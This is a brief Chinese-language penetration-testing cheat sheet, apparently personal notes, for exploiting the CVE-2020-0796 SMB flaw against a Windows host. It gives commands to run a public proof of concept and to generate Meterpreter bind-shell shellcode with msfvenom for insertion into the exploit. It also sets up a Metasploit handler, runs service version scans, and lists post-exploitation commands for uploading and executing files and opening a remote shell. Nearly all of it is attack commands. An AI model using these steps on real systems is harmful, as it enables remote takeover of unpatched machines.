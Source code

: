 ```
Traceback (most recent call last):
  File "scanner.py", line 4, in <module>
    from netaddr import IPNetwork
ModuleNotFoundError: No module named 'netaddr'
```

pip3 install netaddr 

```
it clone https://github.com/eerykitty/CVE-2020-0796-PoC
cd CVE-2020-0796-PoC/
python3 CVE-2020-0796.py  10.4.7.30
```

getshell

```
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=4444 -b '\x00' -i 1 -f python
```

*用生成的shellcode将exploit.py中的这一部分替换掉（buf后的字符串，保留USER_PAYLOAD不变）*

```
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set lport 8888 //监听端口
set rhost 10.4.7.30  //目标主机
run
```

SMB版本扫描

```
use auxiliary/scanner/smb/smb_version
```

SSH版本扫描

```
use auxiliary/scanner/ssh/ssh_version
```

TFP版本扫描

```
use auxiliary/scanner/ftp/ftp_version
```



后渗透测试

```
上传文件到Windows主机
upload <file> <destination> 

upload //root//123.exe c:\\123.exe


下载
download file  path

执行exe
execute 123.exe

创建cmd通道
execute -f  cmd -c

显示进程
ps

获取dos窗口
shell
```